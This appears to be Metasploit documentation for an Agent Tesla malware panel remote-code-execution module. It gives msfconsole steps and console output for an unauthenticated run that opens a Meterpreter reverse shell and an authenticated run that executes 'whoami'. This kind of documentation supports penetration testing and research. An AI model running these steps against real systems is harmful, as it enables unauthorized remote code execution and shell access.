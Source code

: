 ## Targets

```
   Id  Name
   --  ----
   0   Automatic (Dropper)
   1   Unix (In-Memory)
   2   Windows (In-Memory)
```

## Scenarios

### Agent Tesla (panel < September 12 2018) Unauthenticated on Linux

1. Start msfconsole
2. Do: `use exploit/multi/http/agent_tesla_panel_rce`
3. Do: `set RHOSTS 192.168.1.21`
4. Do: `run`

```
msf5 exploit(multi/http/agent_tesla_panel_rce) > run

[*] Started reverse TCP handler on 192.168.1.13:4444
[*] Targeted operating system is: linux
[*] Sending php/meterpreter/reverse_tcp command payload
[*] Payload uploaded as: .WxWf.php
[*] Sending stage (38247 bytes) to 192.168.1.25
[*] Meterpreter session 2 opened (192.168.1.13:4444 -> 192.168.1.25:43260) at 2019-09-04 14:44:07 +0400

meterpreter >
```

### Agent Tesla (panel >= September 12 2018) Authenticated on Linux

1. Start msfconsole
2. Do: `use exploit/multi/http/agent_tesla_panel_rce`
3. Do: `set RHOSTS 192.168.1.21`
4. Do: `set USERNAME admin`
5. Do: `set PASSWORD password`

```
msf5 exploit(multi/http/agent_tesla_panel_rce) > set target 1
target => 1
msf5 exploit(multi/http/agent_tesla_panel_rce) > set cmd whoami
cmd => whoami
msf5 exploit(multi/http/agent_tesla_panel_rce) > run

[*] Sending cmd/unix/generic command payload
[!] Dumping command output in parsed json response
www-data
[*] Exploit completed, but no session was created.
msf5 exploit(multi/http/agent_tesla_panel_rce) >
```
